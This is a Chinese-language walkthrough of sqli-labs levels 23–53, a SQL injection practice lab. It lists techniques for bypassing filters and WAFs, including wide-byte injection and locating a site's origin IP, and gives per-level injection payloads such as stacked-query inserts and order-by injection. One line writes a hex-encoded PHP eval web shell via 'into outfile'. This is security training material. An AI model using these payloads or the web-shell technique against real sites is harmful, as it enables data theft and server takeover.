sql-labs记录2
本文记录sqL-Labs的23-53关，这个系列开始不会一步步按照sql注入的步骤来了，会直接给出结果和思路。
1.基础知识
1.绕过sql过滤与转义
为了防止sql注入攻击，往往在与数据库进行交互之前会进行参数转义过滤等操作。
1.绕过关键字过滤
1.注释符绕过：sel/**/ect
2.大小写绕过：SelEct
3.双写绕过：selselectect
4.符号绕过：and<=>&&，or<=>||，xor<=>|，not<=>!
5.尖括号绕过：sele<>ct
6.编码绕过：url编码绕过、16进制编码绕过、ASCII编码绕过、HEX、unicode编码绕过
7.等价函数绕过
1 | hex()、bin() ==> ascii() |
8.生僻函数代替，例如报错注入中的polygon
2.绕过特殊字符过滤
1.绕过注释符过滤：
1 | 使用or‘1代替注释符 |
1.绕过空格过滤：
1 | 双空格、/**/代替空格、()代替空格、回车代替空格、tab代替空格、`代替空格 |
2.绕过引号过滤：
1 | 编码进行绕过 |
3.绕过逗号过滤：
1 | join代替逗号 |
4.绕过等号过滤：like代替、rlike代替(模糊匹配)、regexp代替、<>等价于!=：!(id<>1)、strcmp(str1,str2)、between and、in
5.绕过<、>过滤：
1 | greatest(n1,n2,n3,...) :返回其中的最大值 |
3.寻找网站源ip绕过waf
对于具有云WAF防护的网站，只要找到网站的IP地址，通过IP访问网站，就可以绕过云WAF检测。
常见的寻找网站IP的方法由以下几种
- 寻找网站的历史解析记录
- 多个不同区域ping网站，查看IP解析的结果
- 找网站的二级域名、NS、MX记录等对应的IP
- 订阅网站邮件，查看邮件发送方的IP
4.HTTP参数污染
HTTP参数污染是指当同一个参数出现多次，不同的中间件会解析为不同的结果。index.php?id=1&id=2获取到的参数具体如下图所示：

5.另寻注入点
往往对url请求过滤比较严重，对http头的过滤不是很严格，前提是将http的内容存进数据库。
2.二次注入
利用条件：
（1）向数据库成功插入恶意语句
（2）数据库取出数据时不进行转义或者过滤
攻击过程：
黑客寻找注入点向数据库中插入恶意代码，再向数据库做第二次请求将第一次注入的代码调用出来即可。
3.宽字节注入
利用条件：PHP连接MySQL的时候，设置了“set character_set_client = gbk”
原因：设置gbk之后，会导致编码转换的问题，gbk编码会认为两个ascii码为一个汉字，而必要条件是前一个ascii码大于 128 才能到汉字的范围。
利用：我们在过滤恶意url请求时，往往会将如'进行转义\'，而我们此时利用就是将其转义符给吃掉，有两种方法：
1.%df 。 urlencode(‘) = %5c%27，%df%5c 在 GBK 编码方式的时候会将其编码为一个汉字。%23是#。另外还可以替代%df有：%E6，%99
2.过滤掉\。例如可以构造 %df%5c%5c%27 的情况，后面的%5c 会被前面的%5c 给注释掉。这也是 bypass 的一种方法。
通常两种提交方式：GET，POST都适用
默认地，PHP对所有的GET、POST和COOKIE数据自动运行addslashes()。所以不应对已转义过的字符串使用addslashes()，因为这样会导致双层转义。遇到这种情况时可以使用函数get_magic_quotes_gpc()进行检测。
防御宽字节漏洞：
1 | SET character_set_connection=gbk,character_set_result=gbk,character_set_client=binary |
4.堆叠注入
简单的说就是让多条语句一起执行。mssql、SQL server、Postgresql支持，而Oracle不支持。
类似union联合查询，但是union两边需要受限制，而堆叠不必，可以为任意增删改查。
可以看一下这篇文章：https://www.cnblogs.com/backlion/p/9721687.html
另外，执行sql函数必须是mysqli_multi_query()(函数执行一个或多个针对数据库的查询,多个查询用分号进行分隔)。
5.order by 注入
以sql 语句为例$sql = "SELECT * FROM users ORDER BY $id";
试?sort=1 desc 或者 asc，显示结果不同，则表明可以注入。
我们可利用 order by 后的一些参数进行注入
注入方法
直接添加注入语句，?sort=(select ******)
利用一些函数。例如 rand()函数等。?sort=rand(sql 语句)
比如说rand(true/false)利用 and，例如?sort=1 and (sql 语句)。
使用报错注入等方式，但需要有报错
导出文件 into outfile 参数注入
?sort=1 into outfile "C:\\phpStudy\\WWW\\sqli\\Less-46\\test.txt"1
2
3
4
5
6
7
- 利用 lines terminated by导出小马
```sql
?sort=1 into outfile "C:\\phpStudy\\WWW\\sqli\\Less-46\\test.php" lines terminated by 0x3c3f706870206576616c28245f504f53545b22636d64225d293b3f3e
#lines terminates by将每行以指定字符串结尾
#0x3c3f706870206576616c28245f504f53545b22636d64225d293b3f3e = hex(<?php eval($_POST["cmd"]);?>)
procedure analyse参数后注入
通常我们可以利用它与sort函数一起执行报错注入
procedure analyse()函数是MySQL内置的对MySQL字段值进行统计分析后给出建议的字段类型。
语法:1
2
3procesure analyse(max_elements,max_memory)
max_elements：指定每列非重复值的最大值，当超过这个值的时候，MySQL不会推荐enum类型。
max_memory：analyse()为每列找出所有非重复值所采用的最大内存大小。用法
1
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
2.靶场记录
Less23：GET基于报错-过滤注释符(单引号)
根据报错信息可以看到是单引号闭合，但是注释符被过滤了

注释符被过滤只有采取后闭合了

后续的爆表可以参考前面的系列了
Less24：POST二次注入
二次注入就是提前在数据库中插入恶意语句，再次提出来就🆗，本关所以先注册一个admin' #的账户，后续使用此账户登录再修改此账户的密码即可实现修改admin密码。原理如下：
1 | 插入数据库 |
这里有一个疑问，为什么后台使用了mysql_escape_string()没有过滤掉特殊符号'#呢？经过实验使用有以下结果
1 | $a=mysql_escape_string($_GET['a']); #$a=admin\' |
mysql_escape_string()和mysql_real_escape_string()采取GET传递参数得到的结果是\'，使用POST提交后虽然结果是\'#，但是这在数据库插入语句里面恰恰代表转义，所以此次存入数据库是admin' #。
Less25：GET基于报错字符型-过滤and和or(单引号)
如题目所示，过滤and和or，其实还过滤了#、–+，没有过滤-- 注释
但是题目是考察and和or过滤怎么办，所以乖乖做吧
经过实验，双写and和or，||，可以绕过过滤。
但是现实中如果过不了可以考虑不用and和or
Less25a：盲注-过滤and和or
这一关和上一关一样，只是是数字型注入。
采用时间盲注和联合查询都🆗
Less26：GET基于报错-过滤空格和注释
这一关三种注释方法都过滤了，所以只能考虑闭合了，而且还简单的过滤了and和or，但是实验双写and和or可以绕过。
但是本人把已知的所有可以代替空格的都试了一遍都不行就他妈离谱。。。
鉴于此采取报错注入吧
payload
1 | 数据库 |

结果可行的。
Less26a：盲注-过滤空格和注释
太难了。。。不显示错误就不能用报错了，延时注入吧。
Less27：GET基于报错-过滤union和select
题目告诉我们本关卡过滤了 union 和 select，其实还有空格，经过实验大小写可以绕过，报错注入
payload如下
1 | 表 |
Less27a：盲注-过滤union和select
时间盲注
1 | 表 |
手工注入很麻烦的，建议用以上payload到burp抓包进行爆破，用burp抓包爆破可以改一下payload不用时间盲注。
Less28：GET基于报错字符型-过滤union和select(带括号的单引号)
这一关题目虽然是说过滤union和select，结果一试把注释和空格也给过了，而且也没有报错信息。。。就时间盲注吧
payload如下：
1 | 表 |
Less28a：GET-盲注-过滤union和select(带括号的单引号)
解法和上一关一样~。
Less29：GET基于报错-??不匹配-有waf
名字稀奇古怪的，应该是作者鹰钩利息不大好的亚子，，，
确定有waf？？？经实验只是吃掉了#，后面就按照前一个系列的慢慢来爆信息吧
Less30：GET盲注-??不匹配-有waf
经实验只是在上一关的基础上减少了报错，并且闭合是双引号。说是盲注，算是吧。。。剩下的和上一关也一样。
有点怀疑自己是不是哪里错了？？？
Less31：GET盲注-??不匹配-有waf
这一关是")闭合，且过滤了#，但是有一个问题，如果环境是php+apache，不会发现问题，JSP+tomcat会发现以id=-1强制报错时不会得出结果，原因就在文章开头讲的http参数污染。其他都一样。
Less32：GET-bypass自定义过滤和转义
观察有转义和16进制编码，那么猜测这一关就是编码注入了

试试宽字节注入?id=-1%df%27%20union%20select%201,database(),3%23成功！

Less33：GET-bypass转义符
这一关上一关的payload也可以用🤣

看一下这关的源码，使用了addslashes()函数进行转义特殊字符，但是依旧可以使用编码绕过。
Less34：POST-bypass转义符
本关只是addslashes过滤，所以只对特殊符号有影响，所以本小节只介绍两种不曾遇到的方式。
本节参考：https://blog.csdn.net/weixin_39934520/article/details/105896415
这一关采用POST提交数据，与GET区别是：get是以 url 形式 提交的，因此数据会通过 URLencode，此处作何解?
关于Unicode的拓展学习可以参考：Unicode令人混淆的概念
1.宽字节注入
宽字节注入和 GET 中并无差别，使用%bb%27或%bb%5c%5c%27代替'均可，在这里同样可以平级越权

但是使用hackbar无法成功，原因是%经过url编码为%25，又生了一次变异，所以无法成功
2.编码转换注入
将 UTF-8 的'转换为 UTF-16 的�'实现注入
1 | uname=�' or 1=1#&passwd=1 |

Less35：GET-bypass转义数字型
经实验，注释符只有-- senull有效，其他什么都没变，过滤函数是addslashes()，而且没有闭合，直接写语句再注释就可以了

Less36：GET-bypass mysql_real_escape_string
关于mysql_real_escape_string上面的二次注入讲到过，会转义特殊符号(\x00.\n,\r,,“,\x1a)，和过滤#，所以注释只能用-- senull(哭，别人都只是过滤单引号。。。)
对于此函数，若mysql没有设置GBK，还是可以突破的

Less37：POST-bypass mysql_real_escape_string
老规矩，碰到登录框试试万能密码，可以成功
爆数据库可以走通
说来也奇怪，以下payload只能burp抓包修改才能成功，浏览器直接做会失败，显示�被转义为�\',按理说这个没有%啊？？？
1 | 表 |
Less38：GET-堆叠注入字符型(单引号)
这一关比较简单，例如插入数据库一个消息

Less39：GET-堆叠注入数字型
和上一关一样，只不过是数字型，没有闭合。
Less40：GET-盲注-堆叠-字符型(bool 单引号 小括号)
这一关有点小毛病，我也不知道哪里出问题了

啊这。。但是用双引号闭合进行堆叠注入的时候注入不了，单引号又ok？？？

Less41：GET-数字型盲注-堆叠
这一关和39一样的，只不过没有报错，是盲注
Less42：POST-基于报错的堆叠注入字符型
嘿嘿，这一关注册和更改密码都没法用，只能在登录界面搞事情。
通过试错，发现语句大概是：SELECT * FROM users WHERE username='$username' and password='$password',这就好办了，直接在密码后面加新插入信息的语句就可了，其实后面有没有语句都无所谓，注释了就🆗了
payload：mima';insert into users values(42,'Less42','Less42')#
注意：输入框中不要用–+是因为+不会进行url编码，因为他不在url地址栏中，可以使用 # %23 – #
Less43：POST-基于报错的堆叠注入字符型(带括号)
搞注入的地方和上一关一样啊，，，
试了半天的错被怼了半天。。。最后发现要在密码框进行试错，，，

闭合为')
剩下的和前一贯一样了
Less44：POST-基于报错-盲注-堆叠注入字符型
老地方，，，，不过换个方式，试试万能密码：1' or 1=1#，成了！
哈哈，不过在登录界面就可以堆叠注入了
payload：1';insert into users values ('44','less44','less44')#
Less45：POST-基于报错字符型-盲注-堆叠注入
45 关与 43 关一样
1 | 1');insert into users(id,username,password) values(45,'Less45','Less45')# |
Less46：GET-基于报错-数字型-排序注入
这一关参考：https://blog.csdn.net/weixin_39934520/article/details/106167470，收获满满！
可以发现输入sort的值不一样，排序结果就不一样，那么猜测后台肯定用到该参数进行排序！那么后台语句应该是：select * from users order by $sort
这就好办了
1.?sort=(select ******)
也算是结合报错注入
1 | 数据库 |

Less47：GET-基于报错-字符型-排序注入(单引号)
和46差不多，只是闭合不一样
1 | 基于报错注入 |
Less48：GET-基于报错-盲注-数字型排序注入
本关与 less-46 的区别在于报错注入不能使用，不进行错误回显，因此其他的方法我们依旧是可以使用的。
1 | Bool 盲注 |
Less49：GET-基于报错-盲注-字符型排序注入
本关与 47 关基本类似，区别在于没有错误回显，所以我们可以通过延时注入和导入文件进 行注入
1 | Time 盲注 |
Less50：GET-基于报错-数字型-排序堆叠注入
执行 sql 语句我们这里使用的是 mysqli_multi_query()函数，而之前我们使用的是 mysqli _query()，区别在于 mysqli_multi_query()可以执行多个 sql 语句，而 mysqli_query()只能执行 一个 sql 语句，那么我们此处就可以执行多个 sql 语句进行注入，也就是我们之前提到的 sta tcked injection。
1 | ?sort=1;insert into users(id,username,password) values(50,'Less50','Less50')--+ |
Less51：GET-基于报错-字符型-排序堆叠注入
和Less-50的一样，但是注意单引号的闭合和注释符。
1 | ?sort=1' and (select 1 from (select count(*),concat_ws('-',(select database()),floor(rand()*2))as a from information_schema.tables group by a) b)--+ |
Less52：GET-bool盲注-数字型-排序堆叠注入
布尔盲注，延时注入都可以参考Less-46
1 | 堆叠注入 |
Less53：GET-盲注-字符型-排序堆叠注入
和上一关一样
1 | 堆叠注入 |